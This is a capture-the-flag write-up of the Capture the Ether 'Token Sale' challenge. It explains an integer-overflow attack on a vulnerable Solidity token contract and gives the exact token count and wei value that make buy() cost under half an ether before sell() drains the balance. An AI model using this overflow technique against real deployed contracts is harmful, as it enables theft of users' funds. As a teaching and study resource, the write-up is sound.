 # Token sale

## Challenge
Source: https://capturetheether.com/challenges/math/token-sale/
>This token contract allows you to buy and sell tokens at an even exchange rate of 1 token per ether.
>
>The contract starts off with a balance of 1 ether. See if you can take some of that away.
```
pragma solidity ^0.4.21;

contract TokenSaleChallenge {
    mapping(address => uint256) public balanceOf;
    uint256 constant PRICE_PER_TOKEN = 1 ether;

    function TokenSaleChallenge(address _player) public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance < 1 ether;
    }

    function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);

        balanceOf[msg.sender] += numTokens;
    }

    function sell(uint256 numTokens) public {
        require(balanceOf[msg.sender] >= numTokens);

        balanceOf[msg.sender] -= numTokens;
        msg.sender.transfer(numTokens * PRICE_PER_TOKEN);
    }
}

```
## Solution

This contract challenge title is a bit of a misnomer. It has the foundational elements of a token contract, but without following any established standard. It also has no means to track the tokens outside of this particular contract. Ideally, an initial coin offering (ICO) would consist of two separate smart contracts. One smart contract to create and track ownership of the tokens and then another contract to deal with raising funds from the token sale.

This contract will hold ```ether```, and in return it adjusts a state variable ```mapping``` addresses to an unsigned integer which denotes a balance. This integer is incremented according to the participant's ```msg.value```, and decremented when a participant calls the ```sell``` function.

The exploit to this puzzle starts with the ```balanceOf``` mapping to an unsigned integer. Unsigned integer state variables that can be re-assigned are potentially vulnerable to integer under/overflow.

Integer overflow is the result of exceeding the maximum value that can be assigned to the value type. In Solidity/Ethereum, the largest integer is ```2**256 - 1```. The result of adding just one more to this value is a return value of zero. To demonstrate this further, in Solidity:

Overflow example:
```
(2**256 - 1) + 4 == 3
```

Underflow example:
```
0 - 1 == 2**256 - 1
```

With that said:
```
0 == 2**256
```

The second piece to this puzzle is the contract state constant ```PRICE_PER_TOKEN``` that declared a token value of ```1 ether```. Remember ```1 ether``` is equal to ```1 * 10**18 wei``` in order to compensate for a lack of decimal value support in Solidity.


To solve this problem, first determine overflow max value which is ```== 2**256```, or:
```
115792089237316195423570985008687907853269984665640564039457584007913129639936
```

Determine largest integer available to ```uint256``` declaration ```== 2**256 - 1```:
```
115792089237316195423570985008687907853269984665640564039457584007913129639935
```

Divide this max value by ```1 ether``` (which is solidity short hand for ```1000000000000000000 wei```):
```
(2**256 - 1) / 1 ether == 115792089237316195423570985008687907853269984665640564039457.584007913129639935
```

Round up, and this is how many tokens we will buy in the function call:
```
115792089237316195423570985008687907853269984665640564039458
```

Now to determine the appropriate ```msg.value```. Consider the require statement and argument in the ```buy``` function:
```
function buy(uint256 numTokens) public payable {
        require(msg.value == numTokens * PRICE_PER_TOKEN);
```
Let's reconfigure these values, solving for ```msg.value```:
```
msg.value == (uint256 numToken * PRICE_PER_TOKEN)
msg.value == (115792089237316195423570985008687907853269984665640564039458 * 1000000000000000000)
msg.value == 115792089237316195423570985008687907853269984665640564039458000000000000000000
```
Before we go on, recall the following:
```
2**256  == 115792089237316195423570985008687907853269984665640564039457584007913129639936
```

Compare the ```msg.value``` calculated above to ```2**256```. The ```msg.value``` is a larger number than a ```uint256``` value type will allow. We now have our overflow.

To explain the concept using a scenario you probably encounter on a daily basis, consider a 12 hour clock vs a 24 hour clock:
```
23 hours  == 23 % 12 == 11 hours
05 hours  == 5 % 12 == 5 hours
```

Think of our unsigned integer as one giant clock. We can do the same thing to determine our ```msg.value```:
```
msg.value % 2**256 == 115792089237316195423570985008687907853269984665640564039458000000000000000000 % 2**256 == 415992086870360064

msg.value == 415992086870360064 wei
msg.value == 0.415992086870360064 ether
```

Alternatively:
```
msg.value == (uint256 numToken * PRICE_PER_TOKEN)
msg.value == (115792089237316195423570985008687907853269984665640564039458 * 1000000000000000000)
msg.value == 115792089237316195423570985008687907853269984665640564039458000000000000000000
  2**256  == 115792089237316195423570985008687907853269984665640564039457584007913129639936
  
msg.value - 2**256 = 415992086870360064

  115792089237316195423570985008687907853269984665640564039458000000000000000000
- 115792089237316195423570985008687907853269984665640564039457584007913129639936
--------------------------------------------------------------------------------
                                                              415992086870360064

  584007913129639936
+ 415992086870360064
--------------------
 1000000000000000000 == 1*(10**18)
```

Triple check the calculation using the solidity contract below:
```
contract cove {
    function check() view public returns(uint256){
        // this is how much you pay in wei
        return (115792089237316195423570985008687907853269984665640564039458 * 1 ether) % 2**256;
    }
}
```
To solve this challenge, call the ```buy``` function using:
* msg.value(denominated in wei) ==  ```'415992086870360064'```
* numToken == ```'115792089237316195423570985008687907853269984665640564039458'```

Then raid ```1 ether``` of the ```1.415992086870360064 ether``` of the smart contract's balance by calling the ```sell``` function on ```1``` of your ```115792089237316195423570985008687907853269984665640564039458 tokens```.
